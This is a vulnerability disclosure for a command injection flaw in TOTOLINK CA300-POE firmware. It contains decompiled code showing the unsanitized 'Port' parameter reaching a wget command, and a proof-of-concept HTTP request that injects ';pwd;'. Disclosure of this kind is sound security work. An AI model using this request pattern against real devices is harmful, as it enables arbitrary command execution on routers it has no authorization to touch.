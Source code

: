 ## Totolink CA300-POE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA300-POE
* Version: V6.2c.884_B20180522

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/ba6d1ef945396a396fb70094a66d5e81.zip

### Vulnerability details

Totolink CA300-POE V6.2c.884_B20180522 was found to contain a command injection vulnerability in the `msg_process` function via the `Port` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
 1 int __fastcall msg_process(int a1, int a2, int a3, int a4)
 2 {
 3 ……
 4 v7 = cJSON_Parse(a1);
 5 Var = (const char *)websGetVar(v7, "Action", "");
 6 v9 = (const char *)websGetVar(v7, "APMAC", "");
 7 ……
 8 if ( strcmp(Var, "Scan") )
 9 {
 10 ……
 11 v18 = 1;
 12 if ( !strcmp(DEVMAC, v9) )
 13 {
 14 v18 = 0;
 15 ……
 16 }
 17 if ( !v18 )
 18 {
 19 ……
 20 if ( !strcmp(Var, "RemoteUpgradeFW") )
 21 {
 22 v24 = (const char *)websGetVar(v7, "Port", "");    //Injection 
 23 v25 = (const char *)websGetVar(v7, "Url", "");     
 24 seconds = websGetVar(v7, "magicid", "");
 25 v26 = (const char *)websGetVar(v7, "ProxyEnabled", "");
 26 if ( !strcmp(v26, "1") )
 27 {
 28 ……
 29 v64 = strrchr(v25, '/');
 30 v31 = inet_ntoa(*(struct in_addr *)(a4 + 4));
 31 ObjectItem = v56;
 32 sprintf(v56, "wget ‐O /tmp/fwdir/%s http://%s:%s%s", v64, v31, v24, v25);
 33 v23 = 0;
 34     if ( !CsteSystem(ObjectItem, 0) )    //Execution
 35 ……
 36 	}
 37   }
 38 }
```

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 155
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"msg_process",
    "Action":"RemoteUpgradeFW",
    "ProxyEnabled": 1,
    "Port": "1;pwd;"
}
```

